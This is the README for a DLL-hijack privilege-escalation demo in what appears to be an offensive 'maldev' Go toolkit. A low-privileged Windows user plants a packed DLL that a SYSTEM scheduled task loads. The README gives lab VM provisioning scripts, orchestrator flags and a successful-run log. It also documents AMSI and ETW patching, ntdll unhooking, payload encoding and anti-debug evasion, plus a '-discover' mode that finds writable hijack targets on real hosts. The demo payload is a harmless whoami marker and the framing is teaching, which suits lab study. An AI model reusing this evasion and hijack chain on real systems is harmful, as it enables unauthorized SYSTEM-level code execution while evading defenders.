

# cmd/privesc-e2e — DLL-hijack PrivEsc, end-to-end demo

> **What this proves.** A low-privileged Windows user can drop a
> single DLL into a directory they own, then trigger a
> SYSTEM-context scheduled task that `LoadLibrary`s that DLL —
> resulting in attacker code running as **NT AUTHORITY\SYSTEM**.
> The orchestrator + probe + victim are all real binaries the
> chain actually executes; nothing is mocked.

A successful run prints:

```
[✅ STRONG SUCCESS — marker shows SYSTEM identity (mode 8)]
```

…and a file `ignore/privesc-e2e/whoami.txt` on the host
containing `Système|pid=9036` (or `System|pid=…` on an English
SKU). That file was written by code we packed, that executed
inside a process the user `lowuser` could not legitimately
control.

---

## Table of contents

1. [The attack chain (pedagogy)](#1-the-attack-chain-pedagogy)
2. [Quick start — get a STRONG verdict in five minutes](#2-quick-start--get-a-strong-verdict-in-five-minutes)
3. [The cast — who's who in the demo](#3-the-cast--whos-who-in-the-demo)
4. [Host prerequisites (your dev machine)](#4-host-prerequisites-your-dev-machine)
5. [Windows VM — one-time setup](#5-windows-vm--one-time-setup)
6. [Per-run flow — what the driver actually does](#6-per-run-flow--what-the-driver-actually-does)
7. [Reading the results](#7-reading-the-results)
8. [Customization — flags & environment](#8-customization--flags--environment)
9. [Troubleshooting](#9-troubleshooting)
10. [Repository layout](#10-repository-layout)
11. [The helpers this command demonstrates](#11-the-helpers-this-command-demonstrates)

---

## 1. The attack chain (pedagogy)



Read it as: **"who acts" → "what they do" → "what changes on disk"**.

The chain depends on three concrete misconfigurations baked into
the test VM by `provision-privesc.ps1` (and present in many
real-world target environments):

1. **`C:\Vulnerable\` is writable by `lowuser`** — typical of any
   third-party software installed under a non-System dir with
   weak ACLs (vendor service paths, Python/Node installs in
   `C:\tools\`, custom application dirs).
2. **A SYSTEM-context scheduled task launches a binary from
   that writable dir** — and that binary `LoadLibrary`s an
   imported DLL by **relative name** (`hijackme.dll`, not
   `C:\Windows\System32\hijackme.dll`).
3. **`lowuser` has been granted Read+Execute on the task** so
   `schtasks /Run` is permitted (or — fallback — the task has a
   natural trigger like a minute-timer that fires regardless).

When all three are true, the lowuser-side orchestrator drops its
packed DLL at `C:\Vulnerable\hijackme.dll`, waits for the task to
fire, and the payload thread inherits the task's SYSTEM token.

This is **MITRE ATT&CK T1574.001** (Hijack Execution Flow: DLL
Search Order Hijacking) with the secondary effect of T1543.003
(Create or Modify System Process: Windows Service / Scheduled
Task abuse).

---

## 2. Quick start — get a STRONG verdict in five minutes

Assuming a clean `INIT` snapshot already exists on the VM (see
[§5](#5-windows-vm--one-time-setup)):

```bash
# From the repo root on the Linux host:
bash scripts/vm-privesc-e2e.sh -m 8     # Mode 8 — minimal ConvertEXEtoDLL
bash scripts/vm-privesc-e2e.sh -m 10    # Mode 10 — fused PackProxyDLL
```

Each invocation is fully self-contained:

- Restores the VM to `INIT`.
- Builds `probe.exe` (C), `fakelib.dll` (Go cgo), `victim.exe`
  (Go), `privesc-e2e.exe` (Go) cross-compiled to `windows/amd64`.
- Uploads everything to the admin SSH user on the VM.
- Provisions `lowuser` + the vulnerable victim + the SYSTEM task.
- Runs the orchestrator as `lowuser`.
- Pulls back the marker file and prints the verdict.
- Tears the VM back down to `INIT`.

**Expected output line on success:**

```
[✅ STRONG SUCCESS — marker shows SYSTEM identity (mode 8)]
```

If you see `ADEQUATE PROOF` instead of `STRONG SUCCESS` see
[§9 Troubleshooting](#9-troubleshooting).

---

## 3. The cast — who's who in the demo

| Principal | Role | Where it lives |
|---|---|---|
| **`test`** (host admin user on the VM) | drives SSH, runs provisioning, owns SSH keys | `C:\Users\test\` |
| **`lowuser`** | the attacker — non-admin, no SeDebugPrivilege, has `SeBatchLogonRight` so schtasks can launch as them | `C:\Users\lowuser\` (auto-created) |
| **`NT AUTHORITY\SYSTEM`** | what we escalate to — runs the scheduled task and therefore the victim | n/a |
| **`privesc-e2e.exe`** | the orchestrator the attacker drops + runs (the maldev tool) | `C:\Users\Public\maldev\privesc-e2e.exe` |
| **`victim.exe`** | deliberately-vulnerable host binary that does `LoadLibrary("hijackme.dll")` | `C:\Vulnerable\victim.exe` |
| **`hijackme.dll`** | the packed payload — converted-DLL form of `probe.exe`, dropped by `lowuser` | `C:\Vulnerable\hijackme.dll` |
| **`probe.exe`** | the payload — tiny C binary that writes `whoami` to a marker file. Packed into `hijackme.dll` by the orchestrator. | embedded into `privesc-e2e.exe` via `//go:embed` |
| **`fakelib.dll`** | Mode-10 only — a real Go-built DLL whose exports we mirror so the proxy looks legitimate | embedded + dropped to `C:\Vulnerable\fakelib.dll` |
| **`MaldevHijackVictim`** | the SYSTEM scheduled task — minute-triggered, RunAs=SYSTEM, action=`victim.exe` | Task Scheduler library |
| **`C:\ProgramData\maldev-marker\`** | observation surface — every actor in the chain writes a file here for post-mortem | created by `provision-privesc.ps1` with `*S-1-1-0=Modify` (Everyone) |

---

## 4. Host prerequisites (your dev machine)

The driver script runs on Linux (Fedora/Ubuntu/Debian/macOS WSL
all known-working). You need:

| Tool | Purpose | Install (Fedora example) |
|---|---|---|
| `go` ≥ 1.22 | cross-compile to windows/amd64 | `dnf install golang` |
| `x86_64-w64-mingw32-gcc` | builds the `-nostdlib` C probe + the cgo c-shared fakelib | `dnf install mingw64-gcc` |
| `ssh`, `scp` | talks to the VM (OpenSSH client) | usually installed |
| `VBoxManage` OR `virsh` | snapshot / power management of the VM | one of: VirtualBox, libvirt |

**Verify them all in one shot:**

```bash
which go x86_64-w64-mingw32-gcc ssh scp
which VBoxManage 2>/dev/null || which virsh
```

**SSH key** (one-time):

```bash
# Generate the key the driver expects.
test -f ~/.ssh/vm_windows_key || \
  ssh-keygen -t ed25519 -f ~/.ssh/vm_windows_key -N '' -C 'maldev-vm'

cat ~/.ssh/vm_windows_key.pub        # copy this for §5
```

The driver also auto-detects which VM hypervisor you run:

| Hypervisor | Triggered by | Default VM domain | Default VM IP |
|---|---|---|---|
| **VirtualBox** | `VBoxManage` in `PATH` | `Windows10` | `192.168.56.102` |
| **libvirt/KVM** | `virsh` in `PATH` (VBox absent) | `win10` | `192.168.122.122` |

Override any of them with environment variables:

```bash
MALDEV_VM_DRIVER=libvirt \
MALDEV_VM_NAME=my-win10 \
MALDEV_VM_HOST_IP=10.0.0.50 \
bash scripts/vm-privesc-e2e.sh -m 8
```

---

## 5. Windows VM — one-time setup

This builds the `INIT` snapshot the driver restores at the start
of every run. Once you have `INIT`, you never touch the VM
manually again.

### 5.1 Create the VM

Windows 10 x64, 4 GB RAM, 60 GB disk, fresh install with one
local administrator account named `test`. Stay on the default
locale (any locale works — fr/en/es/it/pt have all been tested).

> **VirtualBox users:** name the VM `Windows10` (or set
> `MALDEV_VM_NAME`). Add a host-only adapter so the VM gets
> `192.168.56.102` (or set `MALDEV_VM_HOST_IP`).
>
> **libvirt/KVM users:** name the domain `win10`. The libvirt
> default network (`virbr0` / `192.168.122.0/24`) is fine — the
> guest will get a DHCP lease somewhere in that range; pin it via
> `virsh net-edit default` if you want the canonical
> `192.168.122.122` so no env-var override is needed.

### 5.2 Inside the VM — enable SSH (as `test`)

Open an **elevated** PowerShell window and run:

```powershell
# 1. Install + start OpenSSH server.
Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
Set-Service sshd -StartupType Automatic
Start-Service sshd

# 2. Allow inbound 22 (the capability installer usually creates
#    the firewall rule, but verify).
Get-NetFirewallRule -Name 'OpenSSH-Server-In-TCP' -ErrorAction SilentlyContinue
# If missing:
New-NetFirewallRule -Name OpenSSH-Server-In-TCP -DisplayName 'OpenSSH (sshd)' `
                    -Enabled True -Direction Inbound -Protocol TCP `
                    -Action Allow -LocalPort 22

# 3. Install YOUR host SSH public key for the test admin user.
#    Paste the content of ~/.ssh/vm_windows_key.pub (from §4) below.
$pubkey = 'ssh-ed25519 AAAA...your-pub-key-here... maldev-vm'
$adminKeyFile = 'C:\ProgramData\ssh\administrators_authorized_keys'
Set-Content -Path $adminKeyFile -Value $pubkey -Encoding ASCII -Force
# Lock the file down — sshd refuses keys readable by non-admins.
icacls $adminKeyFile /inheritance:r /grant SYSTEM:F /grant Administrators:F

# 4. Verify the admin token has SeBatchLogonRight (the runner
#    harness needs it). On a fresh local-admin install this is
#    typically already granted; if not, add via secedit or
#    Group Policy Editor → Local Policy → User Rights Assignment.
whoami /priv | findstr SeBatchLogonRight
```

### 5.3 Verify from the host

```bash
ssh -i ~/.ssh/vm_windows_key test@192.168.122.122 'whoami'
# Expected: desktop-<random>\test
```

If that prints the admin name, you're done. Otherwise see
[§9 Troubleshooting](#9-troubleshooting).

### 5.4 Snapshot the clean state

**Power the VM off cleanly first** (`shutdown /s /t 0` inside the
VM, or the hypervisor's GUI), then on the host:

```bash
# VirtualBox
VBoxManage snapshot Windows10 take INIT --pause

# libvirt/KVM (snapshot must be taken while the VM is *running*
# so revert is instantaneous — no boot wait)
virsh start win10
sleep 30                              # let it reach login screen
virsh snapshot-create-as win10 INIT
```

That's the snapshot the driver reverts before every run. From
this point onwards you only run the driver — never touch the VM
manually.

### 5.5 What `lowuser` and the victim look like (you don't create these)

The driver's `provision-lowuser.ps1` + `provision-privesc.ps1`
do all of this on every run, but if you ever want to reproduce
manually:

```powershell
# provision-lowuser.ps1 (~ 30 LOC, gist below)
$pw = ConvertTo-SecureString 'MaldevLow42x' -AsPlainText -Force
New-LocalUser  -Name lowuser -Password $pw -PasswordNeverExpires
Set-LocalUser  -Name lowuser -Password $pw
net user lowuser /passwordreq:yes
net user lowuser 'MaldevLow42x'                       # belt + suspenders
Add-LocalGroupMember -SID S-1-5-32-545 -Member lowuser  # Users group
# Grant SeBatchLogonRight via secedit (run-as-lowuser harness needs it).
# Then make C:\Users\Public\maldev\ writable by lowuser.

# provision-privesc.ps1 — the vulnerable surface
New-Item -ItemType Directory -Force C:\Vulnerable
icacls C:\Vulnerable /grant 'lowuser:(M)'             # lowuser-Modify
Copy-Item victim.exe C:\Vulnerable\
New-Item -ItemType Directory -Force C:\ProgramData\maldev-marker
icacls C:\ProgramData\maldev-marker /grant '*S-1-1-0:(M)'

# The SYSTEM scheduled task.
schtasks /Create /TN MaldevHijackVictim `
         /TR 'C:\Vulnerable\victim.exe' `
         /SC MINUTE /MO 1 `
         /RU SYSTEM /RL HIGHEST /F
# Allow lowuser to /Run it.
$task = "\MaldevHijackVictim"
# (driver patches the task XML SDDL to add lowuser RX)
```

---

## 6. Per-run flow — what the driver actually does

`scripts/vm-privesc-e2e.sh` is idempotent and starts from `INIT`
every time. The ten steps:

| # | Step | Where it runs | Notes |
|---|---|---|---|
| 1 | Snapshot revert (`INIT`) | host hypervisor | `VBoxManage snapshot … restore` / `virsh snapshot-revert --running` |
| 2 | SSH wait (≤ 180 s, polls every 2 s) | host | TCP-22 reachability + first `whoami` |
| 3 | Build artefacts | host | probe.exe (mingw) → fakelib.dll (cgo c-shared) → victim.exe (Go) → privesc-e2e.exe (Go) |
| 4 | `scp` artefacts to `C:\Users\test\` | host → VM | over the admin SSH session |
| 5 | `provision-lowuser.ps1` | VM admin | creates `lowuser`, grants `SeBatchLogonRight`, opens `C:\Users\Public\maldev\`, force-sets password via `net user` |
| 6 | `provision-privesc.ps1` | VM admin | creates `C:\Vulnerable\`, deploys `victim.exe`, registers the SYSTEM scheduled task with minute-trigger, opens marker dir to Everyone |
| 7 | Move `privesc-e2e.exe` to `C:\Users\Public\maldev\` | VM admin | so `lowuser` can read it |
| 8 | Run orchestrator AS lowuser | VM `lowuser` (via `run-as-lowuser.ps1` schtasks wrapper) | this is the attack-time step |
| 9 | `scp` marker + `victim.log` back | VM → host | into `ignore/privesc-e2e/` |
| 10 | Verdict + teardown | host | STRONG / ADEQUATE / FAIL; revert to `INIT` unless `-k` |

Step 8 is the one that does the actual offensive work. The
orchestrator (`privesc-e2e.exe`):

1. Applies `evasion/preset.Aggressive` (AMSI + ETW + ntdll unhook
   + CET opt-out + ACG + BlockDLLs MicrosoftOnly) — defence in
   depth for the lowuser process.
2. Packs the embedded `probe.exe` into a converted DLL via
   `packer.PackBinary{ConvertEXEtoDLL:true}` (Mode 8) or
   `packer.PackProxyDLLFromTarget(payload, fakelib, …)` (Mode 10).
3. Writes `hijackme.dll` to `C:\Vulnerable\`.
4. Tries `schtasks /Run` — usually denied for `lowuser`, the
   minute-trigger fires the task within 60 s anyway.
5. Polls `C:\ProgramData\maldev-marker\whoami.txt` for up to
   2 m 20 s.
6. When the file appears, compares its content against
   `currentUser()` and emits SUCCESS / PARTIAL / FAIL.

---

## 7. Reading the results

### 7.1 What lives where after a run

| Path | Content | Tier |
|---|---|---|
| VM `C:\Vulnerable\hijackme.dll` | the packed payload `lowuser` planted | (artefact) |
| VM `C:\Vulnerable\fakelib.dll` (Mode 10 only) | the real Go DLL whose named exports we mirror | (artefact) |
| VM `C:\ProgramData\maldev-marker\whoami.txt` | probe payload's `whoami` output | **STRONG proof** |
| VM `C:\ProgramData\maldev-marker\victim.log` | one line per `victim.exe` fire | **ADEQUATE proof** |
| VM `C:\ProgramData\maldev-marker\probe-*.txt` | probe breadcrumbs (`probe-started.txt`, `probe-root-marker.txt`) | bisect aid |
| VM `C:\ProgramData\maldev-marker\orch-step{1,2,3}-*.txt` | orchestrator breadcrumbs | bisect aid |
| host `ignore/privesc-e2e/whoami.txt` | fetched marker | STRONG if it contains `System` / `Système` / `Sistema` |
| host `ignore/privesc-e2e/victim.log` | fetched log | ADEQUATE if it contains `LoadLibrary succeeded` post-plant |

### 7.2 Verdict tiers

```
STRONG SUCCESS    marker file shows SYSTEM identity
                   ⇒ payload executed AND wrote a SYSTEM-tagged
                     side-effect we can read back as the
                     low-priv attacker
                   ⇒ chain proven end-to-end.

ADEQUATE PROOF    victim.log shows "LoadLibrary succeeded" with
                  the planted DLL, but the SYSTEM marker write
                  was lost (race / Defender / network)
                   ⇒ chain reached at least the DllMain loader
                     callback inside SYSTEM, payload thread
                     execution unverified.

FAIL              neither artefact present
                   ⇒ chain broke somewhere upstream. See
                     §9 Troubleshooting.
```

### 7.3 A sample successful Mode-8 run

```
[23:22:00] restoring snapshot INIT
[23:22:08] SSH up after ~2s
[23:22:08] building probe.exe + fakelib.dll + victim.exe + privesc-e2e.exe
[23:22:09] uploading artifacts to test@192.168.122.122
[23:22:10] provisioning lowuser account
  [+] created lowuser
  [+] lowuser granted SeBatchLogonRight
[23:22:12] provisioning victim.exe + SYSTEM scheduled task
  [+] task MaldevHijackVictim : SYSTEM-context, action=C:\Vulnerable\victim.exe
[23:22:16] orchestrator args: -mode 8 -antidebug=false
[23:22:17] executing privesc-e2e.exe AS lowuser (mode=8) — this can take 60-90s
[18:35:00] evasion.preset.Aggressive applied: AMSI + ETW + unhook + CET + ACG + BlockDLLs
[18:35:00] packing probe.exe → DLL via Mode 8 (ConvertEXEtoDLL)
[18:35:00] planted DLL at C:\Vulnerable\hijackme.dll
[18:35:00] polling C:\ProgramData\maldev-marker\whoami.txt for up to 2m20s
[18:35:01] marker contents: Système|pid=8952
[18:35:01] ✅ SUCCESS: payload ran as SYSTEM (got "système", we are "desktop-…\lowuser")
[23:22:07] ✅ STRONG SUCCESS — marker shows SYSTEM identity (mode 8)
```

---

## 8. Customization — flags & environment

### 8.1 Driver flags (`scripts/vm-privesc-e2e.sh`)

```bash
-m {8|10}       packer mode (default: 8)
-p PASSWORD     lowuser password (default: 'MaldevLow42x' — keep it ASCII-only)
-k              KEEP_VM=1: leave the VM running after the verdict for SSH inspection
```

### 8.2 Environment variables consumed by the driver

| Variable | Effect | Default |
|---|---|---|
| `MALDEV_VM_DRIVER` | `vbox` or `libvirt` | auto-detect (VBox if `VBoxManage` is in PATH) |
| `MALDEV_VM_NAME` | hypervisor domain name | `Windows10` (vbox) / `win10` (libvirt) |
| `MALDEV_VM_HOST_IP` | the VM's reachable IP | `192.168.56.102` (vbox) / `192.168.122.122` (libvirt) |
| `MALDEV_VBOX_EXE` | full path to `VBoxManage.exe` (vbox only) | autodiscovered |
| `MALDEV_VM_WINDOWS_SSH_KEY` | SSH private key to the admin user | `~/.ssh/vm_windows_key` |
| `MALDEV_PRIVESC_E2E_ARGS` | override the orchestrator argv entirely | auto-built `-mode N [-antidebug=false]` |

### 8.3 Orchestrator flags (`privesc-e2e.exe`)

You normally never call the orchestrator directly — the driver
does. But if you SSH into the VM and want to drive it manually:

```
-mode int        packer mode: 8 (ConvertEXEtoDLL) or 10 (PackProxyDLL fused) [default 8]
-discover        scan the box via dllhijack.PickBestWritable and plant there
                 instead of the default `-dll` target
-dll string      where to plant the hijack DLL                                [default "C:\Vulnerable\hijackme.dll"]
-task string     scheduled task to trigger                                   [default "MaldevHijackVictim"]
-marker string   where the probe will write whoami output                    [default "C:\ProgramData\maldev-marker\whoami.txt"]
-no-trigger      plant the DLL but do not /Run the task — wait for natural trigger
-compress        LZ4-compress the payload                                    [default true]
-antidebug       AntiDebug PEB + RDTSC check at DllMain entry                [default true; auto-OFF on libvirt/KVM — see §9]
-randomize       Phase-2 randomisation suite (timestamps, section names, …)  [default true]
-rounds int      stage-1 SGN encoding rounds                                 [default 3]
```

---

## 9. Troubleshooting

Read symptom column first; if your row matches, the right column
is the proven fix.

| Symptom | Cause | Fix |
|---|---|---|
| `SSH never came up after 180s` | wrong key path or VM not on the expected IP | `which ssh && ssh -i ~/.ssh/vm_windows_key test@<VM_IP> whoami` — fix until that prints `…\test` |
| `FAIL: snapshot restore` (libvirt) | VM domain name doesn't match `MALDEV_VM_NAME` or `virbr0` is down | `virsh list --all` shows the right name? `ip link show virbr0` should be `UP,LOWER_UP` — if not: `virsh net-destroy default && virsh net-start default` |
| `Erreur : Le nom d'utilisateur ou le mot de passe est incorrect` (schtasks /RP) | password contains shell-special chars (`!`, `%`, `"`, `^`) | use only `[A-Za-z0-9]` in `-p` argument |
| `Impossible de terminer l'opération, car le fichier contient un virus` (provision script) | Defender flagged the script via AMSI | the driver's provisioning is now registry-direct + no `Set-MpPreference`; ensure you're on a recent commit (`b6d26c8` or later) |
| `Le mappage entre les noms de compte et les ID de sécurité n'a pas été effectué` (icacls) | French Windows locale rejects English principal names | use SID `*S-1-1-0` not `Everyone`, `S-1-5-32-545` not `Users` — provisioning scripts already do this |
| `###RC=1` <1 s, no orchestrator output, no breadcrumb files | bash single-quotes around `-Password` are NOT stripped by cmd.exe; PowerShell sees literal `'MaldevLow42x'` (14 chars), schtasks `/RP` then sends `MaldevLow42x` (12 chars) → STATUS_WRONG_PASSWORD | already fixed in commit `11d37d8` — bash double-quotes that cmd.exe DOES strip |
| `LoadLibrary succeeded` in victim.log but no `whoami.txt` on libvirt/KVM | RDTSC ↔ CPUID delta in the AntiDebug stub trips on KVM VMEXIT — silent no-op LoadLibrary | the driver auto-passes `-antidebug=false` when `DRIVER=libvirt`; for ad-hoc runs `MALDEV_PRIVESC_E2E_ARGS="-mode 8 -antidebug=false"` |
| Verdict stays ADEQUATE on a non-English Windows | French/Spanish/Italian/Portuguese SYSTEM name returned in Windows-1252 (`Système` byte `0xE8`) — neither `strings.Contains("system")` nor `grep -i 'system'` matches | both fixed in `11d37d8` — orchestrator ASCII-strips + skeleton-matches; driver uses `LC_ALL=C grep -aE` for byte-level grep |
| GUI VM but `headless` boot loops | INIT snapshot taken with active desktop session | re-take with `VBoxManage startvm $VM --type headless` (vbox) or just `virsh start $VM` (libvirt), wait for SSH, then snapshot |
| `pattern fakelib/fakelib.dll: no matching files found` at host build | fakelib step skipped (e.g. mingw missing) | install `mingw-w64`, then the driver re-runs the cgo c-shared build |

For deeper diagnosis, run with `-k` (KEEP_VM):

```bash
bash scripts/vm-privesc-e2e.sh -m 8 -k
ssh -i ~/.ssh/vm_windows_key test@<VM_IP>
# Inspect breadcrumbs, scheduled task history, Defender events:
cmd /c "dir C:\ProgramData\maldev-marker\"
powershell -Command "Get-WinEvent -LogName 'Microsoft-Windows-TaskScheduler/Operational' -MaxEvents 20 | Format-List"
powershell -Command "Get-WinEvent -LogName 'Microsoft-Windows-Windows Defender/Operational' -MaxEvents 5 | Format-List"
```

---

## 10. Repository layout

| Path | Role |
|---|---|
| `main.go` | Orchestrator (runs as `lowuser`) — the live actor in the demo |
| `amsi_windows.go` | `patchAMSI()` — runs `evasion.preset.Aggressive` via `ApplyAllAggregated` |
| `probe/probe.c` | Tiny `-nostdlib` C EXE — kernel32-only, writes `whoami` marker + breadcrumbs. Embedded into orchestrator via `//go:embed probe/probe.exe`. |
| `probe/main.go` | Original Go probe — **does NOT survive** thread-injection by Mode-8 stub (Go runtime requires being the process entry point). Kept as a reference; revive only if the runtime-init issue is solved. |
| `victim/main.go` | DELIBERATELY VULNERABLE — `LoadLibrary("hijackme.dll")` then sleeps 5 s. Deployed at `C:\Vulnerable\victim.exe`, run as SYSTEM by the scheduled task. |
| `fakelib/fakelib.go` | Real Go-built `c-shared` DLL with three named exports. Embedded via `//go:embed fakelib/fakelib.dll` for the Mode-10 path. |
| `../../scripts/vm-privesc-e2e.sh` | The driver — does steps 1-10 of [§6](#6-per-run-flow--what-the-driver-actually-does) |
| `../../scripts/vm-test/provision-lowuser.ps1` | creates `lowuser` + grants rights + makes drop dirs |
| `../../scripts/vm-test/provision-privesc.ps1` | builds the vulnerable surface (`C:\Vulnerable`, victim, task, marker dir) |
| `../../scripts/vm-test/run-as-lowuser.ps1` | the schtasks-wrapper that runs the orchestrator under the `lowuser` token + captures stdout |
| `../../docs/refactor-2026-doc/privesc-e2e-lessons-2026-05-12.md` | session-by-session debugging log if you want the archaeology |

The build artefacts `probe/probe.exe` and `fakelib/fakelib.dll`
are gitignored — the driver rebuilds them on every run.

---

## 11. The helpers this command demonstrates

`cmd/privesc-e2e` is also the canonical end-to-end consumer for
four reusable maldev APIs. Each is documented standalone; this
command shows them composed against a real Windows target.

| Helper | Used here for | Doc |
|---|---|---|
| [`packer.PackProxyDLLFromTarget`](../../docs/techniques/pe/packer.md#packproxydllfromtarget) | Mode-10 one-shot: read a real DLL, mirror its exports, pack the payload | `pe/packer/proxy_fused.go` |
| [`dllproxy.ExportsFromBytes`](../../docs/techniques/pe/dll-proxy.md#exportsfrombytes--one-shot-named-export-extraction) | (transitive, inside `PackProxyDLLFromTarget`) | `pe/dllproxy/dllproxy.go` |
| [`dllhijack.PickBestWritable`](../../docs/techniques/recon/dll-hijack.md#pickbestwritable) | `-discover` path: pick the highest-ranked writable hijack target in one call | `recon/dllhijack/dllhijack.go` |
| [`evasion.ApplyAllAggregated`](../../docs/techniques/evasion/preset.md#applyallaggregated) | `amsi_windows.go::patchAMSI` — one-liner aggregating `preset.Aggressive` failures into a single sorted-by-name error | `evasion/evasion.go` |

If you're trying to learn the maldev API, **read the standalone
docs first**, then come here to see them composed against a real
target. That's the intended teaching path.
